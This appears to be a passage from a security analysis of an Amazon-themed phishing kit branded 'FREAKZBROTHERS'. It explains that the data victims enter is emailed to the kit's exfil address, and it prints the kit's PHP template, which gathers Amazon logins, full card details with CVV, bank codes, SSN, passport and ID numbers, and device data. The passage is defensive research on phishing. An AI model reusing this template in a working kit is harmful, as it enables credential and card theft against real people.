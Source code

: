 All data entered so far is then collated in to another email which is sent to the exfil email address set within the kit configuration.

```
++++++++++++++++++++++++++++[ FREAKZBROTHERS ]+++++++++++++++++++++++++++
++-------------------------[ AMAZON ACCOUNT ]------------------------++
# Email 			:	".`$_SESSION`['email']."
# Password 		:	".`$_SESSION`['password']."
++--------------------------[ CREDIT CARD ]--------------------------++
# Bank 			:	".$bin["bank"]["name"]."
# Type 			:	".strtoupper($bin["scheme"])." - ".strtoupper($bin["type"])."
# Level 			:	".strtoupper($bin["brand"])."
# Card Holder 		:	".$_POST['ccname']."
# Card Number 	:	".$_POST['ccno']."
# Expire Date 		:	".$_POST['exp_bulan']."/".$_POST['exp_tahun']."
# Cvv 			:	".$_POST['cvv']."
# Amex CID 		:	".$_POST['cid']."
# Account Number 	:	".$_POST['acno']."
# Sort Code 		:	".$_POST['sortcode']."
# Credit Limit 		:	".$_POST['climit']."
# For Check 		:	".$_POST['ccno']."|".$_POST['exp_bulan']."|".$_POST['exp_tahun']."|".$_POST['cvv']."
++-----------------------------[ VBV JP ]---------------------------++
# Card Password 	:	".$_POST['passjp']."
# Web ID 			:	".$_POST['cardid']."
++-----------------------------[ BILLING ]--------------------------++
# Full Name 		:	".`$_SESSION`['fullname']."
# Address 		:	".`$_SESSION`['address']."
# City 			:	".`$_SESSION`['city']."
# State 			:	".`$_SESSION`['state']."
# Zip 			:	".`$_SESSION`['zipcode']."
# Country 		:	".`$_SESSION`['country']."
# DOB 			:	".`$_SESSION`['dob']."
# Phone Number 	:	".`$_SESSION`['phone']."
# Phone Carrier 	:	".$phone['carrier']."
++----------------------------[ OTHER INFO ]-----------------------++
# ID Number 				:	".`$_SESSION`['numbid']."
# Civil ID 					:	".`$_SESSION`['civilid']."
# Qatar ID 				:	".`$_SESSION`['qatarid']."
# National ID 				:	".`$_SESSION`['naid']."
# Citizen ID 				:	".`$_SESSION`['naid']."
# Passport Number 			:	".`$_SESSION`['passport']."
# Bank Access Number 		:	".`$_SESSION`['bans']."
# Social Insurance Number 	:	".`$_SESSION`['sin']."
# Social Security Number 	:	".`$_SESSION`['ssn']."
# OSID Number 			:	".`$_SESSION`['osidnumber']."
++----------------------------[ DEVICE INFO ]----------------------++
# IP Address 		:	".$ip."
# ISP 			:	".$ispuser."
# Region 			:	".$regioncity."
# City 			:	".$citykota."
# Continent 		:	".$continent."
# Time Zone 		:	".$timezone."
# OS/Browser 		:	".$os." / ".$br."
# Date 			:	".$date."
# User Agent 		:	".$user_agent."
++++++++++++++++++++++++++++[ FREAKZBROTHERS ]+++++++++++++++++++++++++++
```
